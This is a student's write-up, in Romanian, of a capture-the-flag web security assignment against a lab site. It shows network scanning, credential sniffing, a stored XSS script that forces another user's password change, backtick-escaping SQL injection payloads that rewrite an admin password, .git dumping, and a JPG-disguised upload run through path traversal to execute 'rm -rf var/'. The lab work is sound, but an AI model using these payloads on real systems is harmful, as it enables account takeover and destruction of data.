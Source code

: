 # Tema 2 TSSC
Chiper Alexandra-Diana, 342 C4

## Task 0
1. Vedem in ce retea suntem

```bash
$ ip a
``` 
2. Scanam reteau cu nmap

```bash
$ nmap -sn 172.29.0-255.0-255

# Starting Nmap 7.94 ( https://nmap.org ) at 2024-05-20 20:16 UTC
# Nmap scan report for isc-server (172.29.0.1)
# Host is up (0.00027s latency).
# Nmap scan report for isc-web-escape-mysql.web-escape-3783 (172.29.0.2)
# Host is up (0.00016s latency).
# Nmap scan report for your-jail (172.29.0.4)
# Host is up (0.00020s latency).
# Nmap scan report for 172.29.0.50  <-- THISSSSS
# Host is up (0.00045s latency).
```
3. Scanam porturile deschise pe server

```bash
nmap 172.29.0.50

# Starting Nmap 7.94 ( https://nmap.org ) at 2024-05-20 20:26 UTC
# Nmap scan report for 172.29.0.50
# Host is up (0.00013s latency).
# Not shown: 999 closed tcp ports (conn-refused)
# PORT   STATE SERVICE
# 80/tcp open  http  <-- THISSSS
```
Deci serverul e la adresa `172.29.0.50` portul `80`. Rulam scriptul in background
dat cu acesti parametrii si putem sa ne conectam din browser.

```bash
$ ./webtunnel.sh 172.19.0.50 80 &
```

## Task 1

`Flag: SpeishFlag{iZWTYDCEfEyP0dNI6ssrRIwzyy9XGkLU}`

1. Ne conectam de pe site cu credentialele cerute.
2. Inspectam elementele din pagina. Dam un `Ctrl + F` in consola dupa `Speish` si gasim flag-ul intr-un div hidden.

## Task 2

`Flag: SpeishFlag{gbQUo4ge6EYdgyPfunZYMvf6nQ8gkTpv}`

Verificam traficul de retea cu tcpdump

Observam ca de pe portul `8349` se tot primesc mesaje. 

```bash
nc -l 8349

# POST /auth/login HTTP/1.1
# Host: web-escape-3832-shell:8349
# User-Agent: curl/8.5.0
# Accept: */*
# Content-Type: application/x-www-form-urlencoded
# Content-Length: 34

# username=guard&password=0e44da139a^C
```
Acum avem userul si parola. Ne conectam cu ele.

La sectiunea Profile > Private Messages gasim flagul.

## Task 3

`SpeishFlag{qgD7wL0c19SZVZAcsqMAy8av6pGuujpQ}`

Vom trimite un mesaj pe conversatia privata cu dekhan-ul 
care contine un script ce completeaza automat formularul 
de schimbare a parolei cand decanul va accesa pagina.

```html
<script>
  $(function () {
    // Check if the current user is 'dekhan'
    if (window.authUserName === 'dekhan') {
      console.log('Changing password for user:', window.authUserName);
      
      var newPassword = '123'; // Set the new password

      // Make an AJAX request to change the password
      $.ajax({
        url: '/inside/auth/change_password', // URL for changing the password
        type: 'POST',
        data: {
          password: newPassword,
          confirm_password: newPassword
        }
      });
    } else {
      console.log('Not the target user, script will not run.');
    }
  });
</script>
```

Cand accesam sectiunea Profile a dekhanului, dupa ce ne conectam cu noua parola,
gasim in Consola flagul si parola initiala.


## Task 4

`SpeishFlag{Pcyvb7NHzOHfmm5xyUZoEPu8WIObLi9N}`

1. show tables ca sa vedem ce tabele avem
2. Facem un select pe tabela accounts cu o conditie, dar cu DEBUG in fata ca sa vedem cum arata query-ul. Filtrarea randului rek0rului se face dupa id.
3. ca sa putem sa accesam randul rek0r-ului trebuie sa trecem peste conditia id > 1
4. Conditiile sunt legate intre ele cu AND
5. Construim o conditie care sa aiba 2 conditii in ea, prin escaparea caracterului "`"
  - structura: (o conditie fara =) + ` + OR + ` + (orice conditie cu =)
    
    ex pentru afisarea tuturor intrarilor:
    ```sql
    select, accounts, id` > 0 OR `id = 1
    ```

6. Incercam sa ne dam seama ce algoritm de hashing a fost folosit (calculam hash-ul parolei student si vedem care se potriveste. Md5 nu a mers, dar sha-1 s-a potrivit perfect pr fragmentul de parola afisat)

7. Generam hash-ul parolei "admin" cu sha-1 si modificam parola rekt0rului cu:
    ```sql
    update, accounts, password=d033e22ae348aeb5660fc2140aec35850c4da997, username` like 're%' OR `id = 1
    ```

## Task 5

`SpeishFlag{RqZQYWTlcG3aYYPZM7l0U33d1eSyrmIb}`

Am incerca sa descarc direct folderul .git din radacina site-ului, dar nu am putut.

Am ramas fara idei asa ca l-am intrebat pe chatGPT, care mi-a zis sa verific 
daca pot accesa alte fisiere din directorul .git cum ar fi .git/config.

De data aceasta am avut succes, deci am continuat cu urmatoarea recomandare, 
sa folosesc un tool precum `git-dumper` si am obtinut astfel fisierul .git/ pe 
local. Cu un `ll` am afisat continutul lui si am vazut un fisier `.git_flag`. 
THE END :sunglasses:


## Task 6

`SpeishFlag{RYf0iOSQMqqAxMA4Ldbc3BusYYO45aSK}`

In primul rand, ne conectam la contul de rekt0r. Observam ca in terminalul de 
unde am rulat scriptul de conectare ne apare un mesaj nou de la VNO. Avem o conversatie interesanta cu acesta si ne apucam de treaba.

1. Construim un script care face 
    ```bash
    rm -rf var/
    ```
2. Adaugam inainte de continutul propriu-zis headerul de fisier jpg. Folosim `echo -ne`(nu contine doar caractere ASCII). 

3. Copiem calea catre o poza postata ca sa vedem unde sunt salvate.
    ```
    http://localhost:8080/userupload/posts/payload.jpg
    ```

4. Deschidem portile

5. Din consola schimbam codul pentru butonul de fix'em si ii dam urmatorul argument
    ``` 
    ../../../../../bin/sh /var/www/userupload/posts/remove.sh
    ```

6. Ne luam flag-ul din terminal.

## =========== Feedback ===========

Foarte amuzanta tema :D. Pozele si postarile sunt geniale.
